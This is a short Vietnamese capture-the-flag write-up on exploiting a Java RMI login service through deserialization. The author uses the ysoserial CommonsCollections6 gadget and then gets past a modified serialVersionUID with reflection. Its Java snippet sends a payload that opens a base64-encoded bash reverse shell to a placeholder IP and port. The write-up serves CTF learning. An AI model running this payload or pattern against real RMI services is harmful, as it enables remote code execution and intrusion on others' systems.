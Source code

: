 # Introduce:
Bài này mình viết một các bước khai thác mà mình và một người anh cựu sinh viên cùng nhau làm.
# Step 1:
Dựa vào hint của tác giả với blog <a href="https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/">này</a> có thể sử dụng gadget CommonsCollections6 để khai thác. Chỉnh sửa lại client lại 1 chút để gửi payload.

```
public static void main(String[] args) throws Exception {
        String serverIP = "IP";
        int serverPort = Integer.parseInt("PORT");
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");
        Object payload = new CommonsCollections6().getObject("bash -c {echo,BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)}|{base64,-d}|{bash,-i}");
        System.out.println(ascisInterf.login(payload));
    }
```
Nhận được exception như dưới:
<img src="https://imgur.com/a/VTtEEqR">
Dựa vào đây biết được tác giả đã đổi biến static final serialVersionUID thành -1333713373713373737L.
# Step 2:
Sử dụng java reflection để thay đổi biến static final lại thành -1333713373713373737L là xong.
<img src="https://imgur.com/a/xMbXTQ2">
# Note:
Sau khi bruteforce class của ysoserial thì còn có thể sử dụng CommonsCollections5
